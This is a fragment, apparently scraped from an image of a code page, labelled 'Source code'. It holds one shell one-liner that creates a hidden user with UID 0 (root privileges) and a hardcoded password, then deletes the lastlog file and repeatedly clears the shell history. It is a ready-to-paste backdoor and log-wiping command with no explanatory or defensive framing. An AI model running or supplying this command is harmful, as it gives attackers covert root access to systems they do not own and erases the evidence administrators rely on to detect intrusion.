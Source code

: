 useradd -o -u 0 -g 0 -M -d /root -s /bin/bash shell; clear; echo -e 'Crypt\ThatDevCrypt' | passwd shell; clear; rm -rf /var/log/lastlog;clear;clear;history -c;clear;clear;history -c; clear;
